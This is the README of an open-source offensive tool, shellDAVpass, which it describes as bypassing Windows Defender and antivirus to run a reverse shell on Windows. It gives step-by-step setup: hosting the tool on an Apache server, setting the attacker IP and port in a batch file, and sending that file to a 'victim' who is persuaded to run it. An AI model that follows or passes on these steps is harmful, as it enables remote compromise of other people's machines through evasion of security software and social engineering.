 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE inder Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. chown -R www-data: shellDAVpass
6. cd shellDAVpass
7. nano shellDAVpass.bat
8. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
9. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
10. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
11. Launch the command prompt
  bash shellDAVpass.sh
12. Enter your commands
```
An original article:
--------------------
[https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/](https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)

Video example:
--------------
[Watch the video](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVpass-demo.mov)

Screenshots:
------------
![](https://github.com/IvanGlinkin/media_support/blob/main/shellDAVshell_image-1.png?raw=true)

![](https://github.com/IvanGlinkin/media_support/blob/main/shellDAVshell_image-2.png?raw=true)

![](https://github.com/IvanGlinkin/media_support/blob/main/shellDAVshell_image-3.png?raw=true)

![](https://github.com/IvanGlinkin/media_support/blob/main/shellDAVshell_image-4.png?raw=true)
